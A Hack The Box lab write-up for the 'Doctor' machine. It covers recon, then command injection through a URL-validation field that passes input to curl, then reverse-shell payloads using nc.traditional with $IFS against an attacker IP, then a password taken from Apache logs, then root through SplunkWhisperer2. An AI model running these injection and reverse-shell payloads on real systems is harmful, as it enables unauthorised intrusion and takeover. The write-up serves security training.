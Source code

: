 ```yaml
---
layout: post
title:  "Hack The Box - Doctor Writeup"
date:   2021-02-06 06:00:00
categories: "htb"
author: Ryan
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](../images/HTB-Doctor/Header.png)

Doctor is an Easy level linux machine. Based on the creator and community statistics, this box is fairly balanced over the type of approach we'll need to take, leaning slightly more towards the "CVE" and "Real" categories.  
![Statistics](../images/HTB-Doctor/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -p22,80,8089 -sV -sC -oA Extracts/Doctor 10.10.10.209`  
![Nmap](../images/HTB-Doctor/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 80 - HTTP**: A basic websever hosting what appears to be a customer-facing website advertising a doctor and his services.
* **Port 8089 - Splunkd**: [Splunk](https://www.splunk.com/), is a software platform used to search, analyze, and visualize data. Commonly used for event logs.

### Customer Website
Navigating to [10.10.10.209](10.10.10.209) allows us to take a look around the website and try to find any clues that may lead to some sort of login or feature we can leverage. One of the first peices of information we find is the email address for `info@doctors.htb`. Let's get that added to our hosts file and check it out.  
![New Host](../images/HTB-Doctor/Recon_Email.png)

### Doctors Secure Messaging
Navigating to the [doctors.htb](doctors.htb) site, we're shown a login screen for what appears to be some sort of internal messaging system. While we're not able to log in with any credentials, we do have the ability to create a new account lasting for 20 minutes.  
![Account Creation](../images/HTB-Doctor/Recon_Account.png)

One of the main features in this area of the site is the ability to post messages. After testing various types of content in the message body, we're shown the following error message:  
![URL Validation](../images/HTB-Doctor/Recon_URL.png)

Without observing any client-side javascript conducting this URL validation, it appears to be coming from the server. Let's try to manipulate it.

## Foothold
While [https://www.google.com](https://www.google.com) looks completely legitimate to us, HackTheBox might be blocking it because it's an external resource. Let's try using our own IP in the URL. we can set up out listener with:  
`>> nc -lvnp 1234`

Request:  
![Local URL](../images/HTB-Doctor/Foothold_1_URL.png)

Response:  
![Local URL](../images/HTB-Doctor/Foothold_1_URL2.png)

Interstingly, we recieve the same invalid error message as before, but by checking our listener, we see the target box made a call to our machine using `curl`.

### Testing for Injection
As the box's "Doctor" name and logo suggests, we should test out the possibility for injection. If the application is passing our URL directly into curl, it could be possible to use [Command Substitution](https://tldp.org/LDP/abs/html/commandsub.html) to run additional commands. Let's try adding the output of a simple `whoami` to the end of our URL to verify:  

Request:  
![Local URL](../images/HTB-Doctor/Foothold_1_Injection.png)

Response:  
![Local URL](../images/HTB-Doctor/Foothold_1_Injection2.png)

We're succesfully able to inject additional commands into the url verification. Looks like we're running as the `web` user.

### Weaponizing Our Payload
While we have the ability to run commands through the application, we're able to step up our access by starting a reverse shell. After checking for the tools available to us, we're able to accomplish this through [nc.traditional](https://www.commandlinux.com/man-page/man1/nc.traditional.1.html) and the [Internal Field Separator](https://en.wikipedia.org/wiki/Input_Field_Separators) `$IFS`. 

Listener:  
`>> nc -lvnp 8888`  

Payload:  
`http://10.10.14.2:1234/$(nc.traditional$IFS'10.10.14.2'$IFS'8888'$IFS-e$IFS'/bin/sh')`  

![Reverse Shell](../images/HTB-Doctor/Foothold_1_ReverseShell.png)

## Lateral Movement
Our first step now that we've got a direct connection into the machine is to upgrade the shell.  
![Upgrade Shell](../images/HTB-Doctor/Lateral_UpgradeShell.png)

Looking inside our `web` user's home directory, we see only a couple files related to the blog, but no flag. It appears we'll need to pivot into the user `shaun` to access the first flag.

### Enumeration
As we step through the blog files, we come across the database, `site.db`. Dumping the contents reveals that we'll want to find another way to get access, as the password is protected by a very strong hashing algorithm, bCrypt.  
![Site Databse](../images/HTB-Doctor/Lateral_Database.png)

While we may be unable to retrieve the user's password from the database, it could be worth looking through the application logs to see if we can find anything from before the credentials are hashed. Being a member of the `adm` group, this should be possible.  
`>> groups`  
![User Group](../images/HTB-Doctor/Lateral_Groups.png)  
`>> grep -i password $(find /var/log/apache2 -type f)`  
![Apache Logs](../images/HTB-Doctor/Lateral_Logs.png)

It's pretty common for user's to accidentally type their password into the wrong field. Since we can see this doesn't fit an email pattern, we can try passing `Guitar123` around and see if it gets us anywhere.  
![Shuan User](../images/HTB-Doctor/Lateral_Shaun.png)  

`shaun:Guitar123`

### User Flag
![User Flag](../images/HTB-Doctor/User_Flag.png)  

## Privilege Escalation
Early on, we discovered the existence of a Splunk service running on port 8089. Researching that service led to an interesting Github repository for a tool called [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2). Their primary focus is on "Local privilege escalation, or remote code execution, through Splunk Universal Forwarder (UF) misconfigurations". Let's try getting another reverse shell going through Splunk using shaun's credentials.  

Listener:  
`>> nc -lvnp 9999`

Payload:  
`>> python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username shaun --password Guitar123 --lhost 10.10.14.2 --lport 8888 --payload 'nc.traditional 10.10.14.28 9999 -e /bin/sh'`

![PrivEsc Splunk](../images/HTB-Doctor/PrivEsc_Splunk.png)  
![PrivEsc Root](../images/HTB-Doctor/PrivEsc_Root.png)  

### Root Flag
![Root Flag](../images/HTB-Doctor/Root_Flag.png) 